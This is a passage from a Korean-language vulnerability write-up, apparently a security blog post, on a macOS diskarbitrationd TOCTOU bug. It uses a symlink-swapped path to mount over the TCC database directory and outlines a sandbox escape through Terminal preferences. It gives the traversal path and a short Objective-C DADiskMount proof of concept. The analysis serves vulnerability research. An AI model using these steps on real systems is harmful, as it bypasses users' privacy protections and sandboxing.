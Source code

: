따라서 `sandbox_check_by_audit_token`이 경로를 확인할 때 변환 과정은 다음과 같습니다.

```bash
/private/tmp/Users/crab/Library/Application Support/com.apple.TCC
```

결과적으로 이 경로는 `/private/tmp/` 내부의 디렉터리에 마운트하는 것이 허용되므로 보안 검사를 통과할 수 있습니다.

**3. 심볼릭 링크 제거 및 마운트 실행**

```bash
/private/tmp/**starthere**/../../../Users/crab/Library/Application Support/com.apple.TCC
```

`sandbox_check_by_audit_token` 검사가 완료되면 심볼릭 링크를 삭제하고 빈 디렉터리로 대체합니다. 이후 `diskarbitrationd`는 외부 마운트 명령을 다시 실행하게 되며, 위와 같은 경로를 사용하게 됩니다.

```bash
/Users/crab/Library/Application Support/com.apple.TCC
```

하지만 이번에는 `starthere`가 심볼릭 링크가 아니라 디렉터리이므로, 최종 변환 과정은 위와 같습니다.

이제 이 경로에는 심볼릭 링크가 포함되어 있지 않으므로, 커널이 정상적으로 처리할 것입니다. 그리고 호출하는 프로세스가 `diskarbitrationd`이므로, 이는 `com.apple.private.security.storage-exempt.heritable` 권한을 가지며, 이를 통해 커널의 **MACF(Mandatory Access Control Framework) Sandbox 검사**도 우회할 수 있습니다. 따라서 이 방법은 샌드박스 내부에서도 작동합니다.

**4. TCC Bypass 및 샌드박스 탈출**

1-3 과정을 통해 **TCC Bypass**를 수행할 수 있습니다. 이후 **샌드박스를 탈출하려면** 비슷한 방식으로 `~/Library/Preferences` 디렉토리를 마운트하고, 사용자 정의 Terminal 환경설정 파일을 배치하여 Terminal이 열릴 때 특정 명령을 실행하도록 설정할 수 있습니다. 기본적으로, 이 취약점은 **Time Of Check Time Of Use (TOCTOU)** 버그이며, [이전 글](https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/)에서 설명했던 취약점과 유사한 방식으로 동작합니다.

---

### Explain 2

Explain 1의 내용을 디버거를 이용하여 수행해보겠습니다.

```c
#import <DiskArbitration/DiskArbitration.h>
#import <Foundation/Foundation.h>

int main(void) {
    DASessionRef session = DASessionCreate(kCFAllocatorDefault);
    DADiskRef disk = DADiskCreateFromBSDName(kCFAllocatorDefault, session, "/dev/disk6s1");
    CFDictionaryRef properties;
    CFURLRef diskurl = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/dev/disk6s1"];
    CFURLRef url = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"];
    DADiskMount(disk, url, kDADiskMountOptionDefault, NULL, NULL);
    return 0;
}
```

`/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC` 경로에 디스크를 마운트하려고 시도합니다.
